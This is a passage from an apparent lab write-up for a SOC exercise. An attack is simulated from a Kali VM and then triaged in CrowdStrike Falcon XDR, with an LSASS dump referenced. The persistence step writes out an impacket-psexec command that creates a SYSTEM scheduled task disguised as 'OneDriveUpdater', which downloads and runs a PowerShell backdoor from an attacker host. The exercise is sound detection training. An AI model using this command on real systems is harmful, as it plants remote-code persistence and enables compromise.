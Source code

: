 3. If the result is False, the dump may have been blocked which is a realistic scenario in hardened environments.

### Simulate Persistence 
**Objective:** Create a scheduled task on the victim machine to simulate persistence tactics used by attackers.

**Steps:**

1. From the Kali Attacker VM, run:
```
    impacket-psexec 'threathunt/victim01:Lab@2025!User01@192.168.3.2' "schtasks /create /tn \"OneDriveUpdater\" /tr \"powershell.exe -Command \\\"IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.2:8000/backdoor.ps1')\\\"\" /sc onlogon /ru SYSTEM"
```
2. To confirm the task was created run:
```
impacket-wmiexec 'threathunt/victim01:Lab@2025!User01@192.168.3.2' "schtasks /query /tn OneDriveUpdater /v /fo LIST"
```

[Image Confirmation task created](/SOC_Escalation_Automated_Response/img/persistance_prove.png)

## Step 4 SOC Triage & Alert Escalation using Falcon XDR

**Objective:** Investigate alerts generated by Falcon XDR following the simulated LSASS dump. 

**Steps:**
1. Open the browser on the host machine.
2. Select the Crowdstrike Falcon bookmark.
3. Navigate to `Endpoint security -> Endpoint detections`
4. Apply a time-based filter, such as Last Hour, to narrow down recent alerts.

[Image of the filter Time](/SOC_Escalation_Automated_Response/img/Step4_5/2Endpoint_Security.png)

5. Locate the detection for victim01.
- Confirm the correct hostname 
- The process involved should be procdump64.exe

6. Explore additional filters such as Tactics and Techniques:
- Tactic answers *what* the attacker is trying to achieve (e.g., Execution).
- Technique answers *how* the attacker is doing it (e.g., dumping LSASS).

[Image of the filter Tactics](/SOC_Escalation_Automated_Response/img/Step4_5/3Filter.png)

7. Click on the detection to expand and view associated details.

[Image vulnerability Information](/SOC_Escalation_Automated_Response/img/Step4_5/4DropDownInformation.png)  

8. Click the See Full Detection button.
9. A detailed interface will open, showing:
- Details
- Agentic response
- Process Table
- Process tree
- Process graph
- Events timeline
